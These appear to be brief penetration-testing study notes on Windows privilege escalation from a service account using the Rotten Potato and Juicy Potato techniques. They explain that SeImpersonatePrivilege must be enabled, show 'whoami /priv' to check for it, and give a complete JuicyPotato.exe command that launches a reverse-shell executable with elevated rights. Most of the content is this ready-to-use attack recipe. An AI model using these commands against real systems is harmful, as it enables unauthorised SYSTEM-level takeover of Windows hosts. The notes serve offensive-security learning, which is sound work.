

we can't login with service account
Rotten Potato
(2016)
service account need "SeImpersonatePrivilege" privilege enabled
Juicy Potato

https://github.com/ohpe/juicy-potato
Windows 7
check the permission
whoami /priv
search: SeImpersonatePrivilege [Enabled]
C:\Temp\JuicyPotato.exe -l 1337 -p C:\Temp\reverse.exe -t * -c {<clsid>}
clsid --> check in the github